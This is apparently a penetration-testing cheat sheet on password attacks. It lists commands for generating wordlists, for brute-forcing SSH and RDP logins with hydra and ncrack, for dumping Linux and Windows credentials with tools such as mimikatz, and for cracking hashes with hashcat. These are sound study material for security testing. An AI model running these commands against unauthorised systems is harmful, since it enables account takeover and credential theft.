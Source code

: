 # Passwords

### Wordlists
 * /usr/share/seclists/Passwords/
 * /usr/share/seclists/Passwords/Leaked-Databases/
 * crunch 4 8 -o wordlist.txt -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space-sv **(91 PB - don't do this)**
 * cewl https://www.canada.ca/en.html -m 6 -w wordlist.txt
 * john --rules --wordlist=wordlist.txt --stdout > wordlist2.txt *(Mutates passwords according to rules in /etc/john/john.conf)*
 * cupp -w wordlist.txt *(follwed by interactive prompts for options, saves as wordlist.txt.cupp.txt)*

### Online Attacks
 * Use ncrack for RDP `ncrack -vv --user Administrator -P passwordlist.txt rdp://10.11.1.35`
 * `hydra -l root -P passwordlist.txt 10.11.1.35 ssh`

### Dump Linux Hashes
 * /etc/shadow
 * unshadow passwd shadow

### Dump Windows Hashes and Passwords
 * fgdump.exe
 * wce32.exe -w
 * mimikatz.exe
    * token::elevate
    * sekurlsa::logonpasswords

### Offline Attacks
 * hash-identifier to determine mystery hash type
 * findmyhash
 * Google, https://crackstation.net/, https://hashkiller.co.uk/, https://hashes.org/
 * hashcat -m`mode` `hashfile` `wordlist` *Note: wordlist can use wildcards*
 * hashcat --help | findstr /i wordpress *(or grep -i wordpress)*
